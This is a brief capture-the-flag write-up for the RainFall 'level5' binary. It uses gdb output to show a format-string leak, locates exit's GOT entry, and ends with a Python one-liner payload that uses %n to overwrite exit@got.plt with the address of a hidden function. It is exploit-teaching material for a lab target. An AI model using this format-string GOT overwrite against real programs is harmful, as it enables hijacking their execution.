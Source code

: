 ret2plt

GOT PLT exploit -> https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt_and_got


```
(gdb) set height 30
(gdb) i func
0x080484a4  o
0x080484c2  n
0x08048504  main
```

n func calls prinft then exit
```
0x080484ff <+61>:	call   0x80483d0 <exit@plt>
```


```
level5@RainFall:~$ python -c 'print "AAAA" + " |%p| " * 20 ' | ./level5
AAAA |0x200|  |0xb7fd1ac0|  |0xb7ff37d0|  |0x41414141|

level5@RainFall:~$ python -c 'print "AAAA" + " |%4$x| " ' | ./level5
AAAA |41414141|
```
```
(gdb) disass 0x80483d0
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:	jmp    *0x8049838
 ```
 "[We’re in the PLT, and we see that we’re performing a jmp, but this is not a typical jmp. This is what a jmp to a function pointer would look like. The processor will dereference the pointer, then jump to resulting address.](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html)"

"Let’s check the dereference and follow the jmp. Note that the pointer is in the .got.plt"

```
(gdb) x 0x8049838
0x8049838 <exit@got.plt>:	0x080483d6
```



call o from n <===> ovveride exit (0x8049838) of by addr of o (0x080484a4)

(gdb) p 0x080484a4 - 4 = 134513824


 (python -c 'print "\x38\x98\x04\x08" + "%134513824d" + "%4$n" '; cat) | ./level5
 










